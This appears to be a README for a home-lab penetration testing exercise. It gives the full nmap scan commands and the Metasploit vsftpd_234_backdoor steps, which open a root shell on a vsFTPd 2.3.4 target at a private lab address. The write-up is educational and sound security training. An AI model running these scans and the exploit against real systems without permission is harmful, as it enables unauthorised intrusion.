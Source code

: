 # Nmap VSFTPD Exploitation Project

This project demonstrates how to identify and exploit a vulnerability in the vsFTPd 2.3.4 service using **Nmap** and **Metasploit** within a controlled lab environment.

## 🔍 Overview

This step-by-step guide walks through scanning a vulnerable target using `nmap`, discovering a backdoor on the FTP port, and gaining root access via `Metasploit`.

---

### 🚀 Step 1: Discover if the Target is Up (Host Discovery)
```
nmap -sn 192.168.25.128 -oN scans/01-host-discovery.txt
```
![Host Discovery](screenshots/kali1.png)

### 🔥 Step 2: Full TCP Port Scan (All 65535 Ports)
```
nmap -p- -T4 192.168.25.128 -oN scans/02-full-port-scan.txt
```
![Full Port Scan](screenshots/kali2.png)

### Step 3: Service & Version Detection + Default Scripts
```
nmap -sC -sV -p- 192.168.25.128 -oN scans/03-service-detection.txt
```
![Service Detection](screenshots/kali3.png)
![Service Detection](screenshots/kali4.png)

### Step 4: Vulnerability Scanning with NSE
```
nmap --script vuln -p 21,22,23,25,53,80,111,139,445,3306 192.168.25.128 -oN scans/04-vuln-scan.txt
```
![Vulnerability Scan](screenshots/kali5.png)
![Vulnerability Scan](screenshots/kali6.png)

---

## 💥 Exploiting vsFTPd 2.3.4 Backdoor with Metasploit

### Step-by-Step Exploit

1. Launch Metasploit:
   ```bash
   msfconsole
   ```
2. Search for the module:
   ```bash
   search vsftpd
   ```
3. Use the exploit:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.25.128
   set RPORT 21
   run
   ```
4. If successful, you’ll see:
   ```
   Command shell session X opened ...
   ```
5. Run:
   ```bash
   id
   ```
   Output:
   ```
   uid=0(root) gid=0(root)
   ```

✅ You now have root shell access!
![MetaSploit](screenshots/screen1.png)

---

## 📘 Real-World Application

This was a **controlled simulation** where I learned how to identify services and exploit a known vulnerability using **Nmap** and **Metasploit**.

In real-world penetration testing or vulnerability assessments, I follow the **same core phases**:
- **Discovery**: Identifying live hosts and open ports
- **Enumeration**: Gathering detailed information about services and versions
- **Exploitation**: Ethically attempting to exploit known vulnerabilities to validate risk

🔒 **Important Note**:  
The tools and commands may vary based on the target systems, environments, and client requirements. However, the **methodology remains consistent** — understanding why a vulnerability exists, **how it can be exploited ethically**, and most importantly, **how to help clients remediate the issue**.

---

## 🛠️ Tools Used
- Nmap
- Metasploit Framework (msfconsole)
- Kali Linux

## 📌 Disclaimer

This was done in a controlled lab environment for learning purposes only.


